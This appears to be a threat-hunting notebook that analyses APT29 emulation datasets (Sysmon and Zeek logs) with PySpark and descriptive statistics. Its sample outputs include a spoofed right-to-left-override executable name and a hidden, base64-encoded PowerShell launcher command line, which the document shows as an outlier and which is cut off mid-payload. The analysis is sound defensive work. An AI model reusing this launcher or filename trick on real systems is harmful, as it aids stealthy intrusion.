



ATT&CK - APT29 Evals Datasets¶




1. Importing Python Libraries¶
pyspark modules and classes
from pyspark.sql import SparkSession
from pyspark.sql import DataFrame
from pyspark.sql.types import *
import pyspark.sql.functions as func
from pyspark.sql.functions import length, concat ,concat_ws
Complementary libraries
import pandas as pd, numpy as np, networkx as nx
import matplotlib.pyplot as plt
import requests
from openhunt import ossem, descriptiveStatistics as ds, visualizations as vis
import warnings
warnings.filterwarnings('ignore')
2. Initializing SparkSession¶
spark = SparkSession.builder.getOrCreate()
spark.conf.set("spark.sql.caseSensitive", "true")
3. Importing and Reading Datasets: Host and Network¶
Host Data - Day 1
!unzip datasets/apt29_evals_day1_manual.zip
Archive: apt29_evals_day1_manual.zip
inflating: apt29_evals_day1_manual_2020-05-01225525.json
host_day1 = spark.read.json('datasets/apt29_evals_day1_manual_2020-05-01225525.json')
print(type(host_day1))
host_day1.select('@timestamp','Channel','EventID').show(5, truncate = False)
<class 'pyspark.sql.dataframe.DataFrame'>
+------------------------+------------------------------------+-------+
|@timestamp |Channel |EventID|
+------------------------+------------------------------------+-------+
|2020-05-02T02:55:26.493Z|Microsoft-Windows-Sysmon/Operational|10 |
|2020-05-02T02:55:26.493Z|Microsoft-Windows-Sysmon/Operational|10 |
|2020-05-02T02:55:26.493Z|Microsoft-Windows-Sysmon/Operational|10 |
|2020-05-02T02:55:26.494Z|Microsoft-Windows-Sysmon/Operational|10 |
|2020-05-02T02:55:26.494Z|Microsoft-Windows-Sysmon/Operational|10 |
+------------------------+------------------------------------+-------+
only showing top 5 rows
Host Data - Day 2
!unzip datasets/apt29_evals_day2_manual.zip
Archive: apt29_evals_day2_manual.zip
inflating: apt29_evals_day2_manual_2020-05-02035409.json
host_day2 = spark.read.json('datasets/apt29_evals_day2_manual_2020-05-02035409.json')
print(type(host_day2))
host_day2.select('@timestamp','Channel','EventID').show(5, truncate = False)
<class 'pyspark.sql.dataframe.DataFrame'>
+------------------------+------------------------------------+-------+
|@timestamp |Channel |EventID|
+------------------------+------------------------------------+-------+
|2020-05-02T07:54:05.402Z|Microsoft-Windows-Sysmon/Operational|13 |
|2020-05-02T07:54:05.402Z|Microsoft-Windows-Sysmon/Operational|13 |
|2020-05-02T07:54:05.402Z|Microsoft-Windows-Sysmon/Operational|13 |
|2020-05-02T07:54:05.402Z|Microsoft-Windows-Sysmon/Operational|12 |
|2020-05-02T07:54:05.402Z|Microsoft-Windows-Sysmon/Operational|13 |
+------------------------+------------------------------------+-------+
only showing top 5 rows
Network data - Day 1
zeekUrl_day1 = 'https://raw.githubusercontent.com/OTRF/detection-hackathon-apt29/master/datasets/day1/zeek/combined_zeek.log'
zeekLogs_day1 = requests.get(zeekUrl_day1)
zeekDf_day1 = pd.read_json(zeekLogs_day1.text, lines = True)
print(type(zeekDf_day1))
zeekDf_day1.head()
<class 'pandas.core.frame.DataFrame'>
| @stream | @system | @proc | ts | uid | id_orig_h | id_orig_p | id_resp_h | id_resp_p | proto | ... | is_64bit | uses_aslr | uses_dep | uses_code_integrity | uses_seh | has_import_table | has_export_table | has_cert_table | has_debug_data | section_names | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | conn | bobs.bigwheel.local | zeek | 1.588205e+09 | Cvf4XX17hSAgXDdGEd | 10.0.1.6 | 54243.0 | 10.0.0.4 | 53.0 | udp | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 1 | conn | bobs.bigwheel.local | zeek | 1.588205e+09 | CJ21Le4zsTUcyKKi98 | 10.0.1.6 | 56880.0 | 10.0.0.4 | 445.0 | tcp | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 2 | conn | bobs.bigwheel.local | zeek | 1.588205e+09 | CnOP7t1eGGHf6LFfuk | 10.0.1.6 | 65108.0 | 10.0.0.4 | 53.0 | udp | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 3 | conn | bobs.bigwheel.local | zeek | 1.588205e+09 | CvxbPE3MuO7boUdSc8 | 10.0.1.6 | 138.0 | 10.0.1.255 | 138.0 | udp | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 4 | conn | bobs.bigwheel.local | zeek | 1.588205e+09 | CuRbE21APSQo2qd6rk | 10.0.1.6 | 123.0 | 10.0.0.4 | 123.0 | udp | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
5 rows × 148 columns
Let’s convert this pandas dataframe into a spark dataframe.
columnsToChangeType_day1= zeekDf_day1.select_dtypes(include=[object]).columns.to_list()
dictionary_day1 = {i : 'str' for i in columnsToChangeType_day1}
zeekDf_day1 = zeekDf_day1.astype(dictionary_day1)
zeekSpark_day1 = spark.createDataFrame(zeekDf_day1)
print(type(zeekSpark_day1))
zeekSpark_day1.select('id_orig_h','id_orig_p','id_resp_h','id_resp_p').show(5, truncate = False)
<class 'pyspark.sql.dataframe.DataFrame'>
+---------+---------+----------+---------+
|id_orig_h|id_orig_p|id_resp_h |id_resp_p|
+---------+---------+----------+---------+
|10.0.1.6 |54243.0 |10.0.0.4 |53.0 |
|10.0.1.6 |56880.0 |10.0.0.4 |445.0 |
|10.0.1.6 |65108.0 |10.0.0.4 |53.0 |
|10.0.1.6 |138.0 |10.0.1.255|138.0 |
|10.0.1.6 |123.0 |10.0.0.4 |123.0 |
+---------+---------+----------+---------+
only showing top 5 rows
Network data - Day 2
zeekUrl_day2 = 'https://raw.githubusercontent.com/OTRF/detection-hackathon-apt29/master/datasets/day2/zeek/combined_zeek.log'
zeekLogs_day2 = requests.get(zeekUrl_day2)
zeekDf_day2 = pd.read_json(zeekLogs_day2.text, lines = True)
print(type(zeekDf_day2))
zeekDf_day2.head()
<class 'pandas.core.frame.DataFrame'>
| @stream | @system | @proc | ts | ts_delta | peer | gaps | acks | percent_lost | uid | ... | certificate_not_valid_before | certificate_not_valid_after | certificate_key_alg | certificate_sig_alg | certificate_key_type | certificate_key_length | certificate_exponent | server_name | next_protocol | san_dns | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | capture_loss | test-nsm | zeek | 1.588318e+09 | 936.076895 | zeek | 9.0 | 1195.0 | 0.753138 | NaN | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 1 | capture_loss | test-nsm | zeek | 1.588318e+09 | 814.636130 | zeek | 2.0 | 945.0 | 0.211640 | NaN | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 2 | conn | test-nsm | zeek | 1.588317e+09 | NaN | NaN | NaN | NaN | NaN | CyLse01Jig9yHofDXc | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 3 | conn | test-nsm | zeek | 1.588317e+09 | NaN | NaN | NaN | NaN | NaN | C55VWq1ibAOPBspBn4 | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
| 4 | conn | test-nsm | zeek | 1.588317e+09 | NaN | NaN | NaN | NaN | NaN | CD0rgw3qZTWQNLB1ik | ... | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN | NaN |
5 rows × 176 columns
Let’s convert this pandas dataframe into a spark dataframe.
columnsToChangeType_day2= zeekDf_day2.select_dtypes(include=[object]).columns.to_list()
dictionary_day2 = {i : 'str' for i in columnsToChangeType_day2}
zeekDf_day2 = zeekDf_day2.astype(dictionary_day2)
zeekSpark_day2 = spark.createDataFrame(zeekDf_day2)
print(type(zeekSpark_day2))
zeekSpark_day2.select('id_orig_h','id_orig_p','id_resp_h','id_resp_p').show(5, truncate = False)
<class 'pyspark.sql.dataframe.DataFrame'>
+---------+---------+---------+---------+
|id_orig_h|id_orig_p|id_resp_h|id_resp_p|
+---------+---------+---------+---------+
|nan |NaN |nan |NaN |
|nan |NaN |nan |NaN |
|10.0.1.5 |55979.0 |10.0.0.4 |53.0 |
|10.0.1.5 |56259.0 |10.0.0.4 |53.0 |
|10.0.1.5 |64294.0 |10.0.0.4 |53.0 |
+---------+---------+---------+---------+
only showing top 5 rows
4. Creating a Temporary SQL View¶
host_day1.createTempView("apt29HostDay1")
host_day2.createTempView("apt29HostDay2")
zeekSpark_day1.createTempView("apt29NetworkDay1")
zeekSpark_day2.createTempView("apt29NetworkDay2")
5. Now we are finally ready to start exploring our data!!¶

a) What sources of data do we have for hosts on day 1?¶
Let’s select all the data for event field Channel:
channel_host_day1 = spark.sql(
'''
SELECT Channel
FROM apt29HostDay1
''')
channel_host_day1.show(5, truncate = False)
+------------------------------------+
|Channel |
+------------------------------------+
|Microsoft-Windows-Sysmon/Operational|
|Microsoft-Windows-Sysmon/Operational|
|Microsoft-Windows-Sysmon/Operational|
|Microsoft-Windows-Sysmon/Operational|
|Microsoft-Windows-Sysmon/Operational|
+------------------------------------+
only showing top 5 rows
This is a Categorical variable, so a stack counting operation would be helpful:
channel_host_day1 = spark.sql(
'''
SELECT Channel, count(*) as count
FROM apt29HostDay1
GROUP BY Channel
ORDER BY count DESC
''')
channel_host_day1.show(5, truncate = False)
+----------------------------------------+------+
|Channel |count |
+----------------------------------------+------+
|Microsoft-Windows-Sysmon/Operational |143884|
|Security |28627 |
|security |12375 |
|Microsoft-Windows-PowerShell/Operational|5694 |
|Windows PowerShell |5285 |
+----------------------------------------+------+
only showing top 5 rows
If you are more a visual person :D
vis.barh_chart(channel_host_day1,'count','Channel','Frequency of Channel')
b) What Sysmon logs do we have for hosts on day 1?¶
Let’s use the WHERE operator to filter our dataset:
sysmon_host_day1 = spark.sql(
'''
SELECT EventID, count(*) as count
FROM apt29HostDay1
WHERE Channel = 'Microsoft-Windows-Sysmon/Operational'
GROUP BY EventID
ORDER BY count DESC
''')
vis.barh_chart(spark.createDataFrame(sysmon_host_day1.head(8)),'count','EventID','Frequency of Sysmon Logs')
c) Let’s analyze information of Sysmon 1: Process Creation¶
What are the event fields for Sysmon 1? Let’s get this information from OSSEM :D
ossem.getEventDf(platform = 'windows', provider = 'sysmon', event = 'event-1')
| event_code | title | standard_name | standard_type | name | type | description | sample_value | |
|---|---|---|---|---|---|---|---|---|
| 0 | 1 | Event ID 1: Process creation | tag | TBD | RuleName | string | custom tag mapped to event. i.e ATT&CK techniq... | T1114 |
| 1 | 1 | Event ID 1: Process creation | event_date_creation | TBD | UtcTime | date | Time in UTC when event was created | 4/11/18 5:25 |
| 2 | 1 | Event ID 1: Process creation | process_guid | TBD | ProcessGuid | string | Process Guid of the process that got spawned/c... | {A98268C1-9C2E-5ACD-0000-0010396CAB00} |
| 3 | 1 | Event ID 1: Process creation | process_id | TBD | ProcessId | integer | Process ID used by the os to identify the crea... | 4756 |
| 4 | 1 | Event ID 1: Process creation | process_path | TBD | Image | string | File path of the process being spawned/created... | C:\Windows\System32\conhost.exe |
| 5 | 1 | Event ID 1: Process creation | file_version | TBD | FileVersion | string | Version of the image associated with the main ... | 10.0.16299.15 (WinBuild.160101.0800) |
| 6 | 1 | Event ID 1: Process creation | file_description | TBD | Description | string | Description of the image associated with the m... | Console Window Host |
| 7 | 1 | Event ID 1: Process creation | file_product | TBD | Product | string | Product name the image associated with the mai... | Microsoft® Windows® Operating System |
| 8 | 1 | Event ID 1: Process creation | file_company | TBD | Company | string | Company name the image associated with the mai... | Microsoft Corporation |
| 9 | 1 | Event ID 1: Process creation | file_name_original | TBD | OriginalFileName | string | original file name | wuauclt.exe |
| 10 | 1 | Event ID 1: Process creation | process_command_line | TBD | CommandLine | string | Arguments which were passed to the executable ... | ??\C:\WINDOWS\system32\conhost.exe 0xffffffff ... |
| 11 | 1 | Event ID 1: Process creation | file_current_directory | TBD | CurrentDirectory | string | The path without the name of the image associa... | C:\WINDOWS |
| 12 | 1 | Event ID 1: Process creation | user_name | TBD | User | string | Name of the account who created the process (c... | DESKTOP-WARDOG\wardog |
| 13 | 1 | Event ID 1: Process creation | user_logon_guid | TBD | LogonGuid | string | Logon GUID of the user who created the new pro... | {A98268C1-95F2-5ACD-0000-002019620F00} |
| 14 | 1 | Event ID 1: Process creation | user_logon_id | TBD | LogonId | integer | Login ID of the user who created the new proce... | 0xf6219 |
| 15 | 1 | Event ID 1: Process creation | user_session_id | TBD | TerminalSessionId | integer | ID of the session the user belongs to | 1 |
| 16 | 1 | Event ID 1: Process creation | process_integrity_level | TBD | IntegrityLevel | string | Integrity label assigned to a process | Medium |
| 17 | 1 | Event ID 1: Process creation | TBD | TBD | Hashes | string | Hashes captured by sysmon driver | SHA1=B0BF5AC2E81BBF597FAD5F349FEEB32CAC449FA2,... |
| 18 | 1 | Event ID 1: Process creation | process_parent_guid | TBD | ParentProcessGuid | string | ProcessGUID of the process that spawned/create... | {A98268C1-9C2E-5ACD-0000-00100266AB00} |
| 19 | 1 | Event ID 1: Process creation | process_parent_id | TBD | ParentProcessId | integer | Process ID of the process that spawned/created... | 240 |
| 20 | 1 | Event ID 1: Process creation | process_parent_path | TBD | ParentImage | string | File path that spawned/created the main process | C:\Windows\System32\cmd.exe |
| 21 | 1 | Event ID 1: Process creation | process_parent_command_line | TBD | ParentCommandLine | string | Arguments which were passed to the executable ... | C:\WINDOWS\system32\cmd.exe |
Now that we know the fields’ names of Sysmon 1, let’s query its info:
sysmon1 = spark.sql(
'''
SELECT User, LogonId, ProcessId, Image, CommandLine, ParentProcessId, ParentImage, ParentCommandLine
FROM apt29HostDay1
WHERE Channel = "Microsoft-Windows-Sysmon/Operational"
AND EventID = 1
''')
sysmon1.show(1, truncate = False, vertical = True)
-RECORD 0--------------------------------------------------------
User | DMEVALS\pbeesly
LogonId | 0x3731f3
ProcessId | 8524
Image | C:\ProgramData\victim\‮cod.3aka3.scr
CommandLine | "C:\ProgramData\victim\‮cod.3aka3.scr" /S
ParentProcessId | 4440
ParentImage | C:\Windows\explorer.exe
ParentCommandLine | C:\windows\Explorer.EXE
only showing top 1 row
All the fields contain categorical data, so we can continue doing stack counting operations. Let’s try something different: Let’s calculate the length of characters of the CommandLine field.
sysmon1 = spark.sql(
'''
SELECT User, LogonId, ProcessId, Image, CommandLine, ParentProcessId, ParentImage, ParentCommandLine,
length(CommandLine) as CommandLineLength
FROM apt29HostDay1
WHERE Channel = "Microsoft-Windows-Sysmon/Operational"
AND EventID = 1
''')
sysmon1.show(1,truncate = False, vertical = True)
-RECORD 0--------------------------------------------------------
User | DMEVALS\pbeesly
LogonId | 0x3731f3
ProcessId | 8524
Image | C:\ProgramData\victim\‮cod.3aka3.scr
CommandLine | "C:\ProgramData\victim\‮cod.3aka3.scr" /S
ParentProcessId | 4440
ParentImage | C:\Windows\explorer.exe
ParentCommandLine | C:\windows\Explorer.EXE
CommandLineLength | 43
only showing top 1 row
Now we have a Numerical variable in our dataframe. What do we know about this new variable?
Before we continue with our analysis, let’s review two basic but important concepts: Mean and Standard Deviation:


We can use descriptive method to calculate basic statistics
sysmon1.select('CommandLineLength').describe().show()
+-------+-----------------+
|summary|CommandLineLength|
+-------+-----------------+
| count| 446|
| mean| 82.2152466367713|
| stddev|337.3961141365345|
| min| 5|
| max| 7106|
+-------+-----------------+
We can also use numStats method from openhunt to calculate more basic statistics
ds.numStats(sysmon1,'CommandLineLength')
Summary of Descriptive Statistics - CommandLineLength
**********************************************************
Count of values : 446
Count of Null values : 1
Central tendency:-----------------------------------------
Mean(Average) : 82.22
Median(Percentile 25) : 55.0
Min, Max, and Percentiles:--------------------------------
Minimum : 5
Maximum : 7106
Percentile 25 (Q1) : 48.0
Percentile 75 (Q3) : 68.0
Variation:------------------------------------------------
Standard Deviation : 337.4
Range : 7101
Interquartile Range (IQR): 20.0
Shape:----------------------------------------------------
Skewness : 20.31
Kurtosis : 420.01
**********************************************************
| Statistic | Values | |
|---|---|---|
| 0 | count | 446.000000 |
| 1 | Count Null Values | 1.000000 |
| 2 | mean | 82.215247 |
| 3 | median | 55.000000 |
| 4 | min | 5.000000 |
| 5 | max | 7106.000000 |
| 6 | percentile25 | 48.000000 |
| 7 | percentile75 | 68.000000 |
| 8 | stddev | 337.396114 |
| 9 | range | 7101.000000 |
| 10 | IQR | 20.000000 |
| 11 | skewness | 20.307979 |
| 12 | kurtosis | 420.010000 |
Can we do this statistical analysis in a more visual way? Let’s check a couple of visualizations :D
A histogram
vis.histogram(sysmon1,'CommandLineLength')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f64b6fd0>
A Boxplot*
vis.box_plot(sysmon1,'CommandLineLength')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f64ce290>
How can we improve our graphs? Let’s add more contex to our SQL query:
sysmon1 = spark.sql(
'''
SELECT User, LogonId, ProcessId, Image, CommandLine, ParentProcessId, ParentImage, ParentCommandLine,
length(CommandLine) as CommandLineLength
FROM apt29HostDay1
WHERE Channel = "Microsoft-Windows-Sysmon/Operational"
AND EventID = 1
AND length(CommandLine) <1000
''')
Let’s graph our Histogram again!!
vis.histogram(sysmon1,'CommandLineLength')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f5c88510>
And our Boxplot also!!
vis.box_plot(sysmon1,'CommandLineLength')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f659a790>
And what about the atipic values or outliers for the CommandLine lenght? Let’s filter the one :D
sysmon1 = spark.sql(
'''
SELECT User, LogonId, ProcessId, Image, CommandLine, ParentProcessId, ParentImage, ParentCommandLine,
length(CommandLine) as CommandLineLength
FROM apt29HostDay1
WHERE Channel = "Microsoft-Windows-Sysmon/Operational"
AND EventID = 1
AND length(CommandLine) > 7000
''')
print('We have ', sysmon1.count(), ' records')
sysmon1.show(truncate = False, vertical = True)
We have 1 records
-RECORD 0---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
User | DMEVALS\pbeesly
LogonId | 0x13069a
ProcessId | 8704
Image | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
CommandLine | "C:\windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAkAGUAbgB2ADoAdwBpAG4AZABpAHIAKwAnAFwAcwB5AHMAbgBhAHQAaQB2AGUAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQBlAGwAcwBlAHsAJABiAD0AJwBwAG8AdwBlAHIAcwBoAGUAbABsAC4AZQB4AGUAJwB9ADsAJABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBTAHQAYQByAHQASQBuAGYAbwA7ACQAcwAuAEYAaQBsAGUATgBhAG0AZQA9ACQAYgA7ACQAcwAuAEEAcgBnAHUAbQBlAG4AdABzAD0AJwAtAG4AbwBwACAALQB3ACAAaABpAGQAZABlAG4AIAAtAGMAIAAmACgAWwBzAGMAcgBpAHAAdABiAGwAbwBjAGsAXQA6ADoAYwByAGUAYQB0AGUAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4ARwB6AGkAcABTAHQAcgBlAGEAbQAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4ATQBlAG0AbwByAHkAUwB0AHIAZQBhAG0AKAAsAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnACcASAA0AHMASQBBAE8ASAA4AFUAMQAwAEMAQQA3AFYAVwBlADIALwBhAFMAQgBEAC8AdQA1AEgAeQBIAGEAdwBLAEMAVgB0AEgAdwBFADUASQBTAGkASgBWAE8AaAB0AHMATQBBAEUAQwBHAEoAdABBAGkAcQBxAE4AdgBkAGkAYgByAEIALwBZAGEAeAA3AHAAOQBiAHYAZgBMAEsAKwBtAGEAbABxADEASgA1ADAARgA4AHUANQA0AG4AcgArAFoAbgBkAGwANQBIAHIAbQBNAHgASgBIAHcAOQBHAEkASwBYADAANQBQADMAdgBWAFIAaQBrAEoAQgBMAEcAeAB1AGgAeQBXAGgANABDADYAawBkACsAKwBBAFcAbABnAHUAVgBlAEcAagBJAEQANgBvAFMAZABLAEkAUQAwAFMAaQAyAGMAMQBOAFAAVQA5AFQASABMAEgAZAB2AHQAegBFAFQATQAwAHkASABEADUAUwBnAGoATgBSAEUAdgA0AFIAeABnAEYATwA4AGQAbgBkADQAeABOADIAbQBmAEIARgBLAEgAdwB1AE4AMgBuADgAaQBPAGkAZQBiAFYATgBIAGIAbwBDAEYATQB6AFgAeQArAEwAZABPADcAQwBMAHUAUwBkAGwASwBLAEcARgBpADgAZABPAG4AbwB2AFIAdwBwAHMAegBLACsAaQBKAEgATgBCAE8ATAAxAGkAWgBqAE8AQwB4ADcAbABCAFkAbAA0AGEAdgBFAEQAWQA0ADIAQwBSAGEATABYAGUASwBtAGMAUgBiAFAAVwBYAGwATQBvAG8AdgB6AHMAaAAxAGwAYQBJADUANwBvAEcAMgBKAHUANQBnAEYAcwBaAGMAVgBKAFEAZwBDAGYAaQBsAG0AZQBSAG8ASgBQAEIAdwB1AHYALwBzAHEARgBtAEgAWgBUADIATgBYADkAYgB3AFUAWgAxAG0AeABKAEQAeAB3AHoAUQArAHoAMgBkAC8AaQB3ADkANwBzAE0ASQA4AFkAQwBYAEgAWgBqAEIAaABPADQAOABUAEMANgBaAEsANABPAEMAdQAzAFUATwBSAFIAUABNAFQAegBHAFUAaABaAEwAQwBXAFIAUAA1AE0AawBZAEYAdgBHAHoAMQBnAHMAUgBEAG0AbABKAGUARgBQADEASQBnADkAdgBEAHEAQQA5AHIAdABDADQAbQBzAGgANABPAHEAegBWAEMAcABCAEUAbgA4AE0AcwB4AHQANwBPAGMAVQA3AHcAZQBJAGIAZgB2AEsAOABTAC8ARABzAGMAZwArAG8AZgBUADAAOQBPAFQAMgBaAEgANgBwAGsATQAzAHAAZABKAEwAQgA2ADkANwBCAGQAWQAzAEIATQA3AE0AYwBaADIAWABKADkARgBPAFMAUwAwAEEAVQBiAGkATQBYAHAAQgByAGEARgBVAFoAcABqAGEAWABhAEUAVgBTAGoAawA3AGQATABQAHAAWgBVAEQASwB6AEQARwBzAHYATABaAEEAdABxAEQARQB4AE4AdgBCAGoATAA3AFQAQgBiAG8AawBsAE4ALwBYAG8AOABOAFAAQwBjAFIAYgBtAHcAaQBGAEIATAAzAFUASABMAGkAVwArAGoAaQBPAGMAWABiADgATQBvAEgAdABoADcANABKAEIAYgAzA